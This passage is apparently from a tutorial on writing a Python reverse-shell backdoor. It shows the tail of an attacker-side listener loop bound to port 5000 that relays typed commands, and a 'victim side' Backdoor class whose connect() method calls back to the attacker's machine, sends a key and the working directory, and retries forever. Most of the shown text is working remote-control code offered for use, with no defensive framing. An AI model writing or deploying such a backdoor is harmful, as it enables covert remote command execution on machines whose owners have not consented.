 ```python
def run(self):
        while True:
            try:
                cmd = str(input(self.cwd + '>'))
                if (len(cmd.strip()) < 1):
                    self.run()
                self.x_send(cmd)
                r = self.x_recv()
                if cmd.split()[0] == 'cd' and len(cmd.split()) > 1:
                    self.cwd = r
                else:
                    print(r)
            except KeyboardInterrupt:
                self.x_send("terminate")
                self.connection.close()
                exit()

listener = Listener("0.0.0.0", 5000)
listener.run()
```

### [](#header-3) Victim side (client/shell script)
We move now to the client side (the script that will run on the victim's machine).
The `connect()` method is responsible for establishing the connection to the attacker machine, creates a random 1024 byte key that will be sent along the current working directory. If any exception occurs, we wait 2 seconds and try to connect again. This will run forever until a connection is established.


```python
from socket import socket, AF_INET, SOCK_STREAM
from subprocess import Popen, PIPE, DEVNULL
import time
import os
import random
import string


class Backdoor:
    def __init__(self, ip, port):
        self.IP = ip
        self.PORT = port
        self.key = ''

    def connect(self):
        try:
            self.connection = socket(AF_INET, SOCK_STREAM)
            self.connection.connect((self.IP, self.PORT))
            self.key = "".join(random.choice(
                string.ascii_lowercase + string.ascii_uppercase + string.digits) for _ in range(0, 1024))
            cwd = os.getcwd().replace('\\', '/')
            self.connection.send(self.key.encode())
            self.x_send(cwd)
        except Exception:
            self.connection.close()
            time.sleep(2)
            self.connect()
```
`chdir()` method to change the working directory.

